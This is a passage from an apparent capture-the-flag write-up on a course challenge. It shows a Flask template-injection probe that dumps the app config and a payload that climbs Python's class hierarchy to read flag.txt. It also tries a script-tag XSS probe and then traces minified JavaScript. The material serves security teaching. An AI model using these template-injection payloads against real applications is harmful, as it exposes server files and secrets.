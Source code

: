 It's now trivial to write a binary search script.

#### Profile (SSTI -> XSS)

![profile](/blog/images/2020/09/qos_profile.png)

A straight-forward Server-Side Template Injection (SSTI) challenge without any filters.

**SSTI**

Use `{{ config }}` to dump Flask config and this contains a flag and the location of the next flag:

```
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SAMESITE': None, 'PROPAGATE_EXCEPTIONS': None, 'ENV': 'production', 'DEBUG': False, 'SECRET_KEY': "nice try! COMP6443FINAL{I_HEARD_YOU_COMPLAINING_THERE_IS_NO_SSTI_CHALLENGE_DURING_LECTURE_SO_HERE_YOU_GO.ejUyMzE1MjE=.SSBJHOxdKs4RKWS1Ycq7JQ==} there is another flag in flag.txt - go read it. this is a sandboxed environment - changes to any python struct will not be persistent across requests and you won't be able to read any files other than flag.txt.", 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': '/', 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TRAP_HTTP_EXCEPTIONS': False}>
```

Dump content of `flag.txt` with the following payload:

```
{{ config.items()[4][1].__class__.__mro__[1].__subclasses__()[40]("flag.txt").read() }}
```

**XSS**

You can also report your profile to admin and there is a `profile_flag` cookie, hinting that this is also vulnerable to cross-site scripting (XSS).

Try with `<script>alert(1);</script>`, but it doesn't work! It's escaped. We got `<div class="r-s">&lt;script&gt;alert(1);&lt;/script&gt;</div>` displayed on the page.


Let's take a step back and trace through the code to render profile:

```
...
function Oe() {
    for (var a = bc(H("r-t")), b = new we, c = [], d = 0, f = 0; f < a.length; f++) {
        var g = a.charCodeAt(f);
        255 < g && (c[d++] = g & 255,
        g >>= 8);
        c[d++] = g
    }
    a = new Uint8Array(c);
    ue(b, 1, a);
    He(b)
}
...
function He(a) {
    Ie.a.I("/rpc/qos.QuoccaOS/SetProfile", a, {}, Ge, Je)
}
...
function Pc(a) {
    if (null == a || a.G !== Jc)
        if (a instanceof B) {
            var b = N;
            if (a instanceof B && a.constructor === B && a.c === Za)
                var c = a.b;
            else
```